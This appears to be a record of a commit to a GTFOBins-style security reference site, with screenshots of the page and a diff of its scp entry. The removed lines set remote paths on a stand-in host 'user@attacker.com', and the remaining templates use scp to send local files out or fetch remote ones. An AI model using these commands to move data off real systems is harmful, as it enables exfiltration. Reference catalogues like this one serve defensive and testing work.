

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/scp.md, in a window 1280 px wide, cut to the strip 339-824 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update scp.md

```diff
--- a/_gtfoud/scp.md
+++ b/_gtfoud/scp.md
@@ -3,13 +3,9 @@ functions:
   file-upload:
     - description: Send local file to a SSH server.
       code: |
-        RPATH=user@attacker.com:~/file_to_save
-        LPATH=file_to_send
         scp $LFILE $RPATH
   file-download:
     - description: Fetch a remote file from a SSH server.
       code: |
-        RPATH=user@attacker.com:~/file_to_get
-        LFILE=file_to_save
         scp $RPATH $LFILE
 ---
```
